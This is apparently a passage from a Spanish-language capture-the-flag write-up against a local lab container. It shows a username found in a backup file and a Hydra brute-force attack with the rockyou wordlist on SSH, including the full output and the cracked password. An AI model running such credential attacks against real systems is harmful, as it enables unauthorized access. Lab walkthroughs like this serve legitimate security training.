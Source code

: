## Inspección del contenido oculto

`/backup/backup.txt`:

```bash
Usuario para todos mis servicios: russoski (cambiar pronto!)
```

Esto revela el **nombre de usuario principal del sistema**, y sugiere **mala higiene de contraseñas**, ya que no ha cambiado algo tan crítico.

### `/important/important.md`:

Un manifiesto tipo "Hacker's Manifesto". Es texto decorativo, **sin información técnica directamente útil**, pero **refuerza el perfil del usuario como alguien egocéntrico y técnico**, lo cual nos será útil después.

## Ataque de fuerza bruta sobre SSH (puerto 22)

Con la información obtenida:

- Usuario: `russoski`
- Estilo de escritura narcisista y emocional ("me grabé", "es hermosa", "yo tengo buen gusto")
- Contraseñas probablemente simples

**Hipótesis lógica**: si es egocéntrico, probablemente use algo como `iloveme`, `123456`, `password`, etc.

	ATAQUE DE FUERZA BRUTA SOBRE SSH CON HYDRA:

```bash
                                                                    
┌──(zikuta㉿zikuta)-[~]
└─$ hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2    
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-10 17:42:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-10 17:42:49
```
